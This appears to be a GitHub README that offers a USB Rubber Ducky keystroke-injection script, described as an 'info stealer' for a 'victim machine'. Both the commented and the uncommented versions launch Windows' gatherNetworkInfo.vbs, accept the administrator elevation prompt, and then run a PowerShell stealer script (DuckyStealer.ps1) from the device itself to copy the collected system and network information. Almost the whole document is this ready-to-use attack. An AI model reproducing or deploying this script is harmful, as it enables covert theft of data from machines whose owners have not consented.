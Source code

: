 # Rubber_Ducky_Gather_Network_Info
A very quickly script for rubber ducky which exploits the gatherNetworkInfo.vbs file in the C: \ Windows \ System32 folder to steal different information from the victim machine.

![Alt text](https://github.com/JonnyBanana/Rubber_Ducky_Gather_Network_Info/blob/master/images/PrivacyPolicy.png "Rubber_Ducky_Gather_Network_Info by JonnyBanana")

<h2>Gather_Network_Info_Script</h2>

REM gathernetworkInfo a info stealer script by JonnyBanana
REM https://github.com/JonnyBanana
REM large delay beacause Windows require a lot of time to read the Ducky with twin duck firmware
DELAY 10000
GUI r
DELAY 200
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
REM run as admin
CTRL ALT ENTER
DELAY 100
LEFTARROW
DELAY 100
ENTER
REM the scripts require a little of time to create the files....
DELAY 15000
CTRL ESC
DELAY 200
STRING powershell
DELAY 200
ENTER
DELAY 200
REM the Rubber Ducky MUST renamed on " _ " (bottom bar)
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
DELAY 200
ENTER
REM the last command  takes about thirty seconds to copy all the informations
REM so be patient...



Script Without Comments

DELAY 10000
GUI R
DELAY 200
STRING cmd  /C "start gatherNetworkInfo.vbs"  
DELAY 200
CTRL-ALT ENTER
DELAY 100
LEFTARROW
DELAY 100
ENTER
DELAY 15000
CTRL ESC
DELAY 200
STRING powershell
DELAY 200
ENTER
DELAY 200
STRING .((gwmi win32_volume -f 'label=''_''').Name+'DuckyStealer.ps1')
DELAY 200
ENTER
